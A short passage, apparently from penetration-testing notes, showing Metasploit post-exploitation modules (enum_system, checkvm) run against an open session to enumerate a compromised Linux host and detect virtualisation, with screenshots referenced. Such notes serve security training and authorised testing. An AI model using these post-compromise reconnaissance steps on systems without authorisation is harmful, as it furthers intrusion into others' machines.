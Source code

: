 ![Metasploit - post/linux/gather/enum_network](5-post-exploitassets/image-20230427224527431.png)

- Enumerate **local system information**

```bash
use post/linux/gather/enum_system
set SESSION 1
run
```

![Metasploit - post/linux/gather/enum_system](5-post-exploitassets/image-20230427224635959.png)

- Check if the target is a **VM or a container**

```bash
use post/linux/gather/checkvm
set SESSION 1
run
```

![Metasploit - post/linux/gather/checkvm](5-post-exploitassets/image-20230427225015650.png)
